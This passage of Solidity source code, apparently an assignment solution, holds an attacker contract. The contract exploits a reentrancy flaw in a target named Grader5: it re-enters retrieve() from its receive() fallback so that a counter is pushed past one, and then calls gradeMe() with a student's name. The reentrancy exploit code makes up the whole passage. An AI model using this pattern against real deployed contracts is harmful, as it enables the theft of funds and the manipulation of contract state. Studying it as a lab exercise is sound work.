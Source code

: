 ```solidity
     * @notice Execute the complete attack sequence
     * @dev Combines reentrancy attack and student registration in single transaction
     * @custom:vulnerability Exploits reentrancy in Grader5.retrieve()
     * @custom:target counter[msg.sender] > 1 for gradeMe() access
     */
    function executeAttack() external payable onlyController {
        require(!attacking, "Attack in progress");
        require(msg.value >= 5 wei, "Insufficient ETH for attack");
        
        attacking = true;
        reentryCount = 0;
        
        emit AttackStarted(block.timestamp);
        
        // Execute the reentrancy attack
        (bool success,) = TARGET.call{value: 4 wei}(
            abi.encodeWithSignature("retrieve()")
        );
        
        if (!success) {
            attacking = false;
            emit AttackFailed("Initial retrieve() failed");
            return;
        }
        
        attacking = false;
        
        // Now register the student name
        _registerStudent();
    }

    /**
     * @notice Receive function - handles reentrancy callback
     * @dev This function is called by Grader5.retrieve() creating the exploit
     * @custom:security This is where the reentrancy attack happens
     */
    receive() external payable {
        if (attacking && reentryCount < 2) {
            reentryCount++;
            emit ReentryExecuted(reentryCount);
            
            // Reentrant call to manipulate counter state
            (bool callSuccess,) = TARGET.call{value: 4 wei}(
                abi.encodeWithSignature("retrieve()")
            );
            
            // Continue regardless of callSuccess to avoid reverting main attack
            callSuccess;
        }
    }

    /**
     * @notice Register student name after successful attack
     * @dev Internal function to call gradeMe with proper error handling
     * @custom:target Call gradeMe("Eduardo J. Moreno") after counter manipulation
     */
    function _registerStudent() private {
        (bool success, bytes memory returnData) = TARGET.call(
            abi.encodeWithSignature("gradeMe(string)", STUDENT_NAME)
        );
        
        if (success) {
            emit RegistrationSuccess(STUDENT_NAME, block.timestamp);
```